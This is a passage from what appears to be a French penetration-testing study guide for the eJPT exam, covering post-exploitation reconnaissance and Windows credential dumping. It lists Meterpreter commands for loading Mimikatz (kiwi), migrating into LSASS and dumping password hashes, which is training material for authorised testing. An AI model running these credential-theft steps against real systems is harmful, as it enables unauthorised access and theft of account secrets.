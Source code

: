 Les compétences acquises dans ces labs sont directement applicables à l'examen eJPT, où vous rencontrerez probablement des systèmes Windows et Linux vulnérables.

**En clair, pour un débutant** : Ces exercices pratiques vous apprennent à exploiter différentes failles selon le système d'exploitation, comme un serrurier qui maîtrise différentes techniques selon le type de serrure à ouvrir.



## 8. Post-Exploitation & Credential Dumping

Une fois que vous avez obtenu un accès initial à un système, l'étape suivante consiste à explorer ce système, collecter des informations sensibles et extraire des identifiants qui pourront vous servir pour pivoter vers d'autres machines.

### Exploration du système compromis

Après avoir obtenu un shell sur un système, voici les premières actions à effectuer :

```bash
# Sur un système Windows (dans un shell Meterpreter)
meterpreter > sysinfo
meterpreter > getuid
meterpreter > ps  # Liste des processus
meterpreter > ipconfig  # Configuration réseau

# Sur un système Linux (dans un shell standard)
whoami
id
uname -a
ifconfig ou ip a
netstat -tuln
```

**En clair, pour un débutant** : Ces commandes vous permettent de comprendre où vous êtes, qui vous êtes sur le système, et quelles sont les connexions réseau disponibles. C'est comme explorer une pièce dans laquelle vous venez d'entrer pour savoir ce qu'elle contient.

### Extraction d'identifiants sur Windows

Windows stocke les identifiants de plusieurs façons que vous pouvez exploiter :

```bash
# Dans Meterpreter
meterpreter > load kiwi  # Charge l'extension Mimikatz
meterpreter > creds_all  # Extrait tous les identifiants

# Dumping de la mémoire LSASS (Local Security Authority Subsystem Service)
meterpreter > migrate -N lsass.exe  # Migration vers le processus LSASS
meterpreter > dump_secrets  # Extraction des secrets

# Extraction des hachages SAM
meterpreter > hashdump
```
